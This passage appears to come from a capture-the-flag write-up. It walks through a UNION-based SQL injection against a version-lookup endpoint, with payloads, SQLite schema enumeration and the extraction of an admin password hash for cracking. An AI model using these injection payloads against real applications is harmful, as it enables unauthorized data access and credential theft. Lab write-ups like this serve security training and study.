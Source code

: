 The output is as shown:

{% code overflow="wrap" %}
```
$ python3 exploit.py
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```
{% endcode %}

I tried playing around with the version number, and it would raise an `Invalid Version!` error each time it wasn't set to `0.0.2`. When I appended a `"`, it would print nothing, indicating that there was an error in the backend since the code catches errors.&#x20;

I played around with some UNION SQL injection, and found that the payload of `0.0.2"UNION SELECT 1,2,3,4;-- -` generated **no errors.** Changing the number of columns results in an error, indicating that this application is indeed vulnerable to SQL Injection.&#x20;

We can confirm the DBMS used by trying different version commands, and I found that `sqlite_version()` works.

```
$ python3 exploit.py
{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}
```

With this, we can extract the tables present in `sqlite_schema`.

{% code overflow="wrap" %}
```
{"message": {"id": "sqlite_sequence,versions,users,info,reports,answers", "version": 2, "released_date": 3, "downloads": 4}}
```
{% endcode %}

There's a `users` table, and we can try to extract a username and password from it.&#x20;

{% code overflow="wrap" %}
```
payload used: 0.0.2"UNION SELECT username,password,3,4 from users;-- -
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": 3, "downloads": 4}}
```
{% endcode %}

Great! The hash can be cracked on crackstation:

<figure><img src="../../.gitbook/assets/image (3225).png" alt=""><figcaption></figcaption></figure>
